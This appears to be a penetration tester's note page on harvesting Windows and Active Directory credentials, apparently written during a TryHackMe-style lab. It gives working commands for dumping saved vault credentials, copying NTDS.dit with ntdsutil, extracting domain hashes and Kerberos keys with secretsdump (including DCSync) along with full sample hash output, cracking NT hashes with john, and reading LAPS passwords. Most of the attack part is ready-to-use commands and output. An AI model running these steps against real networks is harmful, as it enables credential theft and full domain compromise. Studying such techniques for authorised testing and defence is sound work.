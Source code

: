 
### Requirements
- NT AUTHORITY\ SYSTEM privileges


### Regular password gathering
Includes:
- Logonpasswords
- Passwords to other domain users (if Domain Controller)
[[Mimikatz]]


### Windows credential manager
Includes:
- Web credentials contain authentication details stored in Internet browsers or other applications.
- Windows credentials contain Windows authentication details, such as NTLM or Kerberos.
- Generic credentials contain basic authentication details, such as clear-text usernames and passwords.
- Certificate-based credentials: Athunticated details based on certifications.
Usage: 
```cmd
vaultcmd /list                          // Prints the available vaults
vaultcmd /listcreds:"Web Credentials"   // Prints the saved web-credentials (use Get-WebCredentials.ps1 to view)
```
[[Mimikatz#Windows credential manager]]


### Attacks on the Domain Controller
Main target: NTDS Domain controller.
The NTDS Domain Controller is a database with all the credentials, objects and more of an AD.  It's an encrypted file located in `C:\Windows\NTDS\ntds.dit` .  It's also locked, so you can't just copy the file.
For 
If you want to dump the contents, you need these files:
```
C:\Windows\NTDS\ntds.dit
C:\Windows\System32\config\SYSTEM
C:\Windows\System32\config\SECURITY
```
### Local dumping (no credentials necessary)
One-liner to dump all files into the `C:\temp` directory:
```powershell
powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"      // Make sure to run as admin
```
Download the files to your machine. (example: xfreerdp drive)
Local NTDS hash extraction
```bash
python3 /opt/impacket/examples/secretsdump.py -security path/to/SECURITY -system path/to/SYSTEM -ntds path/to/ntds.dit local
```

### Remote dumping (credentials necessary)
For remote dumping, we will use the DC SYNC attack
DC SYNC attacks require these AD permissions:
- Replicating Directory Changes
- Replicating Directory

```python3
secretsdump.py -just-dc DOMAIN/<AD_Admin_User>@IP_ADDRESS
```
`-just-dc` --> Extracts the NTDS data (prints the hashes)

##### Example output
```
┌─[✗]─[root@edu-virtualbox]─[/home/edu/THM]
└──╼ #secretsdump.py -just-dc THM.red/thm@10.10.95.62
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:fc9b72f354f0371219168bdb1460af32:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:ec44ddf5ae100b898e9edab74811430d:::
thm.red\thm:1114:aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889:::
thm.red\victim:1115:aad3b435b51404eeaad3b435b51404ee:6c3d8f78c69ff2ebc377e19e96a10207:::
thm.red\thm-local:1116:aad3b435b51404eeaad3b435b51404ee:077cccc23f8ab7031726a3b70c694a49:::
thm.red\admin:1118:aad3b435b51404eeaad3b435b51404ee:077cccc23f8ab7031726a3b70c694a49:::
thm.red\svc-thm:1119:aad3b435b51404eeaad3b435b51404ee:5858d47a41e40b40f294b3100bea611f:::
thm.red\bk-admin:1120:aad3b435b51404eeaad3b435b51404ee:077cccc23f8ab7031726a3b70c694a49:::
thm.red\test-user:1127:aad3b435b51404eeaad3b435b51404ee:5858d47a41e40b40f294b3100bea611f:::
sshd:1128:aad3b435b51404eeaad3b435b51404ee:a78d0aa18c049d268b742ea360849666:::
CREDS-HARVESTIN$:1008:aad3b435b51404eeaad3b435b51404ee:bb82c431eb0555c76bf05d78a49ce0f0:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:510e0d5515009dc29df8e921088e82b2da0955ed41e83d4c211031b99118bf30
Administrator:aes128-cts-hmac-sha1-96:bab514a24ef3df25c182f5520bfc54a0
Administrator:des-cbc-md5:6d34e608f8574632
krbtgt:aes256-cts-hmac-sha1-96:24fad271ecff882bfce29d8464d84087c58e5db4083759e69d099ecb31573ad3
krbtgt:aes128-cts-hmac-sha1-96:2feb0c1629b37163d59d4c0deb5ce64c
krbtgt:des-cbc-md5:d92ffd4abf02b049
thm.red\thm:aes256-cts-hmac-sha1-96:2a54bb9728201d8250789f5e793db4097630dcad82c93bcf9342cb8bf20443ca
thm.red\thm:aes128-cts-hmac-sha1-96:70179d57a210f22ad094726be50f703c
thm.red\thm:des-cbc-md5:794f3889e646e383
thm.red\victim:aes256-cts-hmac-sha1-96:588635fd39ef8a9a0dd1590285712cb2899d0ba092a6e4e87133e4c522be24ac
thm.red\victim:aes128-cts-hmac-sha1-96:672064af4dd22ebf2f0f38d86eaf0529
thm.red\victim:des-cbc-md5:457cdc673d3b0d85
thm.red\thm-local:aes256-cts-hmac-sha1-96:a7e2212b58079608beb08542187c9bef1419d60a0daf84052e25e35de1f04a26
thm.red\thm-local:aes128-cts-hmac-sha1-96:7c929b738f490328b13fb14a6cfb09cf
thm.red\thm-local:des-cbc-md5:9e3bdc4c2a6b62c4
thm.red\admin:aes256-cts-hmac-sha1-96:7441bc46b3e9c577dae9b106d4e4dd830ec7a49e7f1df1177ab2f349d2867c6f
thm.red\admin:aes128-cts-hmac-sha1-96:6ffd821580f6ed556aa51468dc1325e6
thm.red\admin:des-cbc-md5:32a8a201d3080b2f
thm.red\svc-thm:aes256-cts-hmac-sha1-96:8de18b5b63fe4083e22f09dcbaf7fa62f1d409827b94719fe2b0e12f5e5c798d
thm.red\svc-thm:aes128-cts-hmac-sha1-96:9fa57f1b464153d547cca1e72ad6bc8d
thm.red\svc-thm:des-cbc-md5:f8e57c49f7dc671c
thm.red\bk-admin:aes256-cts-hmac-sha1-96:48b7d6de0b3ef3020b2af33aa43a963494d22ccbea14a0ee13b63edb1295400e
thm.red\bk-admin:aes128-cts-hmac-sha1-96:a6108bf8422e93d46c2aef5f3881d546
thm.red\bk-admin:des-cbc-md5:108cc2b0d3100767
thm.red\test-user:aes256-cts-hmac-sha1-96:2102b093adef0a9ddafe0ad5252df78f05340b19dfac8af85a4b4df25f6ab660
thm.red\test-user:aes128-cts-hmac-sha1-96:dba3f53ecee22330b5776043cd203b64
thm.red\test-user:des-cbc-md5:aec8e3325b85316b
sshd:aes256-cts-hmac-sha1-96:07046594c869e3e8094de5caa21539ee557b4d3249443e1f8b528c4495725242
sshd:aes128-cts-hmac-sha1-96:e228ee34b8265323725b85c6c3c7d85f
sshd:des-cbc-md5:b58f850b4c082cc7
CREDS-HARVESTIN$:aes256-cts-hmac-sha1-96:c37ddc1d59ec2c9266638f7e5a5e1e366ffdff8788e29850b762a7aafc49202e
CREDS-HARVESTIN$:aes128-cts-hmac-sha1-96:409a08704ec6af415eb0f092dcc8f79b
CREDS-HARVESTIN$:des-cbc-md5:9dea76c25d1cb07a
[*] Cleaning up...

```

#### Cracking
Note: Make sure to crack them using the `NT` form
Cracking:
```
john --format=nt -w=/usr/share/wordlists/rockyou.txt OUTPUT_FILE
```


### Local Administrator Password Solution (LAPS)
- Note: AD-Only
LAPS is a way for Domain Controllers/ Domain Admins to set the admin password for all Domain-connected devices.
#### Check if LAPS exists
Laps will have a file named `admpwd.dll` in the system, at the `C:\Program Files\LAPS\CSE` location.
```
dir "C:\Program Files\LAPS\CSE"
```
##### Example output
```
C:\Users\thm>dir "C:\Program Files\LAPS\CSE"
 Volume in drive C has no label.
 Volume Serial Number is A8A4-C362

 Directory of C:\Program Files\LAPS\CSE

06/06/2022  01:01 PM              .
06/06/2022  01:01 PM              ..
05/05/2021  07:04 AM           184,232 AdmPwd.dll
               1 File(s)        184,232 bytes
               2 Dir(s)  10,306,015,232 bytes free
```


##### Checking the rights to read
Then, check the read rights (required:  extended permissions)
```
Find-AdmPwdExtendedRights -Identity *            // List names
Find-AdmPwdExtendedRights -Identity USERNAME     // Read of specific names
```
##### Example output
```
PS C:\Users\thm> Find-AdmPwdExtendedRights -Identity *

Name                 DistinguishedName                                                 Status
----                 -----------------                                                 ------
Domain Controllers   OU=Domain Controllers,DC=thm,DC=red                               Delegated
THMorg               OU=THMorg,DC=thm,DC=red                                           Delegated
Find-AdmPwdExtendedRights : More than one object found, search using distinguishedName instead
At line:1 char:1
+ Find-AdmPwdExtendedRights -Identity *
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [Find-AdmPwdExtendedRights], AmbiguousResultException
    + FullyQualifiedErrorId : AdmPwd.PSTypes.AmbiguousResultException,AdmPwd.PS.FindExtendedRights

PS C:\Users\thm> Find-AdmPwdExtendedRights -Identity THMorg

ObjectDN                                      ExtendedRightHolders
--------                                      --------------------
OU=THMorg,DC=thm,DC=red                       {THM\LAPsReader}
```

##### Exploitation
If the extended permission is enabled, we can read the LAPS. 
In this example, the name is `LAPsReader`, so we will check the users in the group:
```
net groups "LAPsReader"
// Example output:
Group name     LAPsReader
Comment
Members
-------------------------------------------------------------------------------
bk-admin
The command completed successfully.
```

Then we need to run the `Get-AdmPwdPassword` command as that user:
```
Get-AdmPwdPassword -ComputerName thm.local   // Example computername, if unsure use "Get-adcomputer -filter *"
```
And the password will be printed.

### Kerberoasting
See [[Kerberoasting]]

### AS-REP roasting
See [[AS-REP roasting]]
